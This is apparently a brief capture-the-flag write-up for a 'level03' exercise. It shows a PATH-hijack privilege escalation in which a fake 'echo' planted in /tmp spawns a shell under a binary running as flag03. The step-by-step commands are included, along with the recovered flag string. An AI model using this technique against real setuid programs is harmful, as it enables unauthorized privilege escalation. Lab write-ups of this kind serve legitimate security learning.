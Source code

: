 # level03

It is possible to run almost any executable with elevated privileges in this exercise, I chose sh as it permits pretty much anything

1. Decompile binary, see that it runs as flag03
2. Exploit env vars usage by changing $PATH
3. Create an exploit binary to be executed by the original binary
4. Execute original binary and retrieve flag

in kali: scp executable from target machine

in kali: `/opt/retdec/bin/retdec-decompiler.py level03`

OPTION 1:

 `PATH=/tmp:$PATH`

 `echo /bin/sh > /tmp/echo`

 `chmod +x /tmp/echo`

 `./level03`

 `whoami`

 `getflag`

 gives: qi0maab88jeaj46qoumi7maus

OPTION 2:

 `cd /tmp`

 `vim main.c`

 Copy-Paste exploit.c

 `gcc main.c -o echo`

 `~/level03`

  `whoami`

 `getflag`

 gives: qi0maab88jeaj46qoumi7maus
